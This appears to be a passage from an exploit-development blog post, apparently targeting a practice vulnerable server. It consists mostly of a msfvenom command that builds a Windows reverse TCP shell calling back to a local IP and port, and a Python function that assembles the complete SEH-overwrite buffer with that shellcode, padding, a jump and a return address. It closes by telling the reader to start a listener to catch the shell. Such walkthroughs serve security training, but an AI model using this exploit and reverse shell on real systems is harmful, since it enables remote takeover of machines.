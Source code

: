 For the sake of simplicity I'm just using the same command from the last blog post as there are no new bad chars:

```bash
sudo msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.64 LPORT=5556 -b '\x00' -f c
```

Again prefixing the "b" in our exploit and adjusting the buffer lengths, we should be left with the following payload:

```python
def make_payload():
    prepend = b"GMON /.:/"
    buf =  b""
    buf += b"\xb8\xfd\xe4\x71\x2d\xd9\xf6\xd9\x74\x24\xf4\x5b\x31"
    buf += b"\xc9\xb1\x52\x31\x43\x12\x03\x43\x12\x83\x3e\xe0\x93"
    buf += b"\xd8\x3c\x01\xd1\x23\xbc\xd2\xb6\xaa\x59\xe3\xf6\xc9"
    buf += b"\x2a\x54\xc7\x9a\x7e\x59\xac\xcf\x6a\xea\xc0\xc7\x9d"
    buf += b"\x5b\x6e\x3e\x90\x5c\xc3\x02\xb3\xde\x1e\x57\x13\xde"
    buf += b"\xd0\xaa\x52\x27\x0c\x46\x06\xf0\x5a\xf5\xb6\x75\x16"
    buf += b"\xc6\x3d\xc5\xb6\x4e\xa2\x9e\xb9\x7f\x75\x94\xe3\x5f"
    buf += b"\x74\x79\x98\xe9\x6e\x9e\xa5\xa0\x05\x54\x51\x33\xcf"
    buf += b"\xa4\x9a\x98\x2e\x09\x69\xe0\x77\xae\x92\x97\x81\xcc"
    buf += b"\x2f\xa0\x56\xae\xeb\x25\x4c\x08\x7f\x9d\xa8\xa8\xac"
    buf += b"\x78\x3b\xa6\x19\x0e\x63\xab\x9c\xc3\x18\xd7\x15\xe2"
    buf += b"\xce\x51\x6d\xc1\xca\x3a\x35\x68\x4b\xe7\x98\x95\x8b"
    buf += b"\x48\x44\x30\xc0\x65\x91\x49\x8b\xe1\x56\x60\x33\xf2"
    buf += b"\xf0\xf3\x40\xc0\x5f\xa8\xce\x68\x17\x76\x09\x8e\x02"
    buf += b"\xce\x85\x71\xad\x2f\x8c\xb5\xf9\x7f\xa6\x1c\x82\xeb"
    buf += b"\x36\xa0\x57\xbb\x66\x0e\x08\x7c\xd6\xee\xf8\x14\x3c"
    buf += b"\xe1\x27\x04\x3f\x2b\x40\xaf\xba\xbc\xaf\x98\xc5\x7c"
    buf += b"\x58\xdb\xc5\x69\x2c\x52\x23\xfb\x5c\x33\xfc\x94\xc5"
    buf += b"\x1e\x76\x04\x09\xb5\xf3\x06\x81\x3a\x04\xc8\x62\x36"
    buf += b"\x16\xbd\x82\x0d\x44\x68\x9c\xbb\xe0\xf6\x0f\x20\xf0"
    buf += b"\x71\x2c\xff\xa7\xd6\x82\xf6\x2d\xcb\xbd\xa0\x53\x16"
    buf += b"\x5b\x8a\xd7\xcd\x98\x15\xd6\x80\xa5\x31\xc8\x5c\x25"
    buf += b"\x7e\xbc\x30\x70\x28\x6a\xf7\x2a\x9a\xc4\xa1\x81\x74"
    buf += b"\x80\x34\xea\x46\xd6\x38\x27\x31\x36\x88\x9e\x04\x49"
    buf += b"\x25\x77\x81\x32\x5b\xe7\x6e\xe9\xdf\x17\x25\xb3\x76"
    buf += b"\xb0\xe0\x26\xcb\xdd\x12\x9d\x08\xd8\x90\x17\xf1\x1f"
    buf += b"\x88\x52\xf4\x64\x0e\x8f\x84\xf5\xfb\xaf\x3b\xf5\x29"
    pattern = b"A"*3180  # 3531 - length of our payload
    nseh = b"\xeb\x06\x90\x90"
    seh = b"\x5e\x19\x50\x62"
    yeet = b"\x54\x58\x66\x05\x45\x06\xff\xe0"
    buffer_space = 5000 - len(buf) - len(pattern) - len(nseh) - len(seh) - len(yeet)
    print(buffer_space)
    payload_struct = buf + pattern + nseh + seh + yeet+ b'D'*buffer_space
    final_payload = prepend + payload_struct 
    return final_payload
```

Make sure you have a listener running before executing, once you do you'll see a shell comeback! :D 
